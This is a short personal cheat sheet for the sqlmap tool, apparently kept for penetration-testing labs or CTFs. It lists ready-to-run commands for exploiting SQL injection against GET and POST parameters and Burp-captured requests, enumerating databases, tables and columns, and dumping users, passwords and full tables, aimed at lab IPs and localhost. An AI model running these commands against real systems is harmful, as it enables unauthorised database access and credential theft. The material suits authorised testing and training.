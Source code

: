 Link : [sqlmap](https://github.com/sqlmapproject/sqlmap)
- - -

## Usage : 

#### **<u>Simple usage</u>**

```sh
sqlmap -u "http://targetsite.com/vuln.php"
```

```sh
sqlmap -u "http://$IP/sqlmap/mysql/get_int.php?id=1" --batch
```

#### **<u>POST Method</u>**

```sh
sqlmap -u "http://targetsite.com/login.aspx" --method POST --data "username=foo&password=bar&submit=login" --dbms=mssql --dump
```

```sh
sqlmap -o -u "http://10.11.1.111:1337/978345210/index.php" --data="username=admin&password=pass&submit=+Login+" --method=POST --level=3 --threads=10 --dbms=MySQL --users --passwords
```

#### **<u>Full Auto</u>** 

```sh
sqlmap -u 'http://10.11.1.111:1337/978345210/index.php' --forms --dbs --risk=3 --level=5 --threads=4 --batch
```

#### **<u>Through BurpRequest</u>**

```sh
sqlmap -r request.req --dbs --dump
```

```sh
sqlmap -r request.req
```

- - -
### **<u>My Fav</u>** : 

**GET Parameter**
```sh
sqlmap -u "$URL/index.php?id=1"
``` 


**POST Parameter**

- Copy POST request from Burp Suite into post.txt file
```sh
sqlmap -r post.txt -p parameter
``` 


**List databases**  📼📼

```sh
sqlmap -u http://localhost/Less-1/?id=1 --dbs
```


**List tables**  🪑🛏️🪑 

```sh
sqlmap -u http://localhost/Less-1/?id=1 -D database_name --tables
```


**List columns** ❄️❄️❄️

```sh
sqlmap -u http://localhost/Less-1/?id=1 -D database_name -T table_name --columns
```


**Dump all** 💰🏦 🤑💰🏦

```sh
sqlmap -u http://localhost/Less-1/?id=1 -D database_name -T table_name --dump-all
```

